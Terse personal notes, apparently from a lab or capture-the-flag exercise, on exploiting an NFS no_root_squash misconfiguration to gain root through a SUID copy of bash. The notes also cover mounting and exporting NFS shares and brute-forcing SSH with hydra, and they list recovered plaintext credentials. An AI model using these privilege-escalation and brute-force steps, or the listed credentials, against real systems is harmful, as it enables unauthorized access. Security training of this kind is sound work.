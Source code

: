   ls 
    not working 

network file sevice

or mount 
mount :/mnt/test 

misconfiguration
  NO_ROOT_SQUASH 
    can read/write as root = you can upload anything as root > set SUID to binary file (it's not worked for shell script or python script) 
    HOST : 
    `cp /bin/bash .`
    `chmod +s /bin/bash`
    TARGET: 
    `./bash -p`  


showmount -e 172.31.199.185
  not workign 

to use mount, 
cd /mnt/test
sudo mount 172.31.199.185:/public-nfs 


- which directories are exposed by default?
sudo apt install nfs-kernel-server
cat /etc/exports
when apply 
cd /scratch
sudo exportfs -a 

cd /mnt/newjeans 

- /etc/fstab 
```
localhost:/home/kail/mount /mnt/newjeans nfs rsize=8192,wsize=8192,timeo=14,intr
```
or
- sudo mount localhost:/home/kail/mount /mnt/newjeans

learn about
need to python2 and import/install module 

if you feel sleepy, do simple no thinking  

hydra -L username.txt -P password.txt ssh://172.31.186.85 -s 2222 -V -f 
  mlores:mlores!@#
ssh mlores@172.31.186.85 -p 2222  

  need to escalate privilege or gather 

  jdoe_key
  ssh -i jdoe_key jdoe@172.31.186.85
  no need to put phrasskey
  jdoe123!@#
  there's no groot and choi?
